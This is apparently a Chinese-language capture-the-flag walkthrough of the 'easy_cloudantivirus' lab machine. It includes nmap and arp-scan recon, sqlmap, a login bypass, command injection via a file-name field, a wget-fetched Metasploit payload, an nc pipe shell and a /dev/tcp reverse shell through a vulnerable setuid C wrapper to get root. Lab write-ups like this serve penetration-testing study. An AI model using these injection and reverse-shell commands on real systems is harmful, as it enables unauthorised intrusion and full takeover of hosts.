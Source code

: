2.easy_cloudantivirus

主机发现

```
nmap -sn 192.168.159.1/24
```

```
┌──(root💀kali)-[/home/soyamilk/桌面]
└─# arp-scan -l               
Interface: eth0, type: EN10MB, MAC: 00:0c:29:5a:99:73, IPv4: 192.168.159.128
Starting arp-scan 1.10.0 with 256 hosts (https://github.com/royhills/arp-scan)
192.168.159.1   00:50:56:c0:00:08       VMware, Inc.
192.168.159.2   00:50:56:fb:34:d2       VMware, Inc.
192.168.159.136 00:0c:29:f5:18:42       VMware, Inc.
192.168.159.254 00:50:56:ef:44:30       VMware, Inc.

4 packets received by filter, 0 packets dropped by kernel
Ending arp-scan 1.10.0: 256 hosts scanned in 1.945 seconds (131.62 hosts/sec). 4 responded

```

>arping
>
>```
>for i in $(seq 1 254); do arping -c 2 192.168.159.$i; done
>```

端口扫描

`nmap -T4 -p- 192.168.159.136`

```
┌──(root💀kali)-[/home/soyamilk/桌面]
└─# nmap -T4 -p- 192.168.159.136                            
^[[3~Starting Nmap 7.94 ( https://nmap.org ) at 2024-03-04 15:33 CST
Stats: 0:00:00 elapsed; 0 hosts completed (0 up), 1 undergoing ARP Ping Scan
ARP Ping Scan Timing: About 100.00% done; ETC: 15:33 (0:00:00 remaining)
Nmap scan report for 192.168.159.136
Host is up (0.00087s latency).
Not shown: 65533 closed tcp ports (reset)
PORT     STATE SERVICE
22/tcp   open  ssh
8080/tcp open  http-proxy
MAC Address: 00:0C:29:F5:18:42 (VMware)

Nmap done: 1 IP address (1 host up) scanned in 4.27 seconds

```

服务扫描

```
┌──(root💀kali)-[/home/soyamilk/桌面]
└─# nmap -T4 -sV 192.168.159.136
Starting Nmap 7.94 ( https://nmap.org ) at 2024-03-04 15:30 CST
Nmap scan report for 192.168.159.136
Host is up (0.00015s latency).
Not shown: 998 closed tcp ports (reset)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.6p1 Ubuntu 4 (Ubuntu Linux; protocol 2.0)
8080/tcp open  http    Werkzeug httpd 0.14.1 (Python 2.7.15rc1)
MAC Address: 00:0C:29:F5:18:42 (VMware)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 6.43 seconds

```

访问 web 服务，fuzz 测试一下

![image-20240304182225837](2.easy_cloudantivirus.assets/image-20240304182225837.png)

sqlmap 跑一下，`python sqlmap.py -r test.txt --level 5 --risk 3 --random-agent`，看到有重定向，猜测使用万能密码登录成功，尝试万能密码

![image-20240304183252812](2.easy_cloudantivirus.assets/image-20240304183252812.png)



![image-20240304183151404](2.easy_cloudantivirus.assets/image-20240304183151404.png)

或者在报错的这个位置可以看到服务的部分源码，可以看出来是万能密码

![image-20240304184629878](2.easy_cloudantivirus.assets/image-20240304184629878.png)

测试有目录穿越的扫描功能

![image-20240304184441291](2.easy_cloudantivirus.assets/image-20240304184441291.png)

猜测扫描功能的构成是由某个扫描脚本拼接路径构成，即上述可表示为 `scan ../../../../../etc/passwd`，尝试通过命令分隔符进行命令执行，经测试，使前面的 `scan` 执行失败用 `||` 或直接用 `;` 即可进行命令分割执行其他命令。（注：使用 `&` 进行分割时，`&` 需要进行 url 编码）

在 kali 上开一个服务器 `python3 -m http.server 60312`，在靶机上用 wget 下载 msf 的马，并赋予执行权限，msf 开启监听，运行

![image-20240305165841347](2.easy_cloudantivirus.assets/image-20240305165841347.png)

![image-20240305165947035](2.easy_cloudantivirus.assets/image-20240305165947035.png)

`filename=../../../../../etc/passwd ; chmod %2bx ./shell.elf 2>%261` 加权限

![image-20240305170210745](2.easy_cloudantivirus.assets/image-20240305170210745.png)

![image-20240305170221045](2.easy_cloudantivirus.assets/image-20240305170221045.png)

>nc 串联
>
>`hello| nc 10.0.2.7 3333 | /bin/bash | nc 10.0.2.7 4444`
>
>通过管道符，在 3333 端口输入命令，命令会传入 bash，然后结果会返回到 4444，开两个 nc即可

下载数据库文件到本地，用sqlite3打开数据库文件并查看
![image-20240305200757294](2.easy_cloudantivirus.assets/image-20240305200757294.png)

![image-20240305200834801](2.easy_cloudantivirus.assets/image-20240305200834801.png)

查看可以登录的用户

![image-20240306130744396](2.easy_cloudantivirus.assets/image-20240306130744396.png)

将用户和密码组成爆破密码本，进行22端口ssh爆破

![image-20240306131121585](2.easy_cloudantivirus.assets/image-20240306131121585.png)

失败，查看上级目录，注意这个文件，里面有他的c源码，并且这个可执行文件具有suid权限并且为root属主

![image-20240306131855151](2.easy_cloudantivirus.assets/image-20240306131855151.png)

![image-20240306132234694](2.easy_cloudantivirus.assets/image-20240306132234694.png)

```c
#include <stdio.h>

int main(int argc, char *argv[])
{
char *freshclam="/usr/bin/freshclam";

if (argc < 2){
printf("This tool lets you update antivirus rules\nPlease supply command line arguments for freshclam\n");
return 1;
}

char *command = malloc(strlen(freshclam) + strlen(argv[1]) + 2);
sprintf(command, "%s %s", freshclam, argv[1]);
setgid(0);
setuid(0);
system(command);
return 0;

}

```

审计源码可得知，可以进行命令的拼接，最后的命令为

```
./update_cloudav ";/bin/bash -c '/bin/bash -i >& /dev/tcp/192.168.159.128/5555 0>&1'"
```

![image-20240306133537760](2.easy_cloudantivirus.assets/image-20240306133537760.png)

成功获得root权限
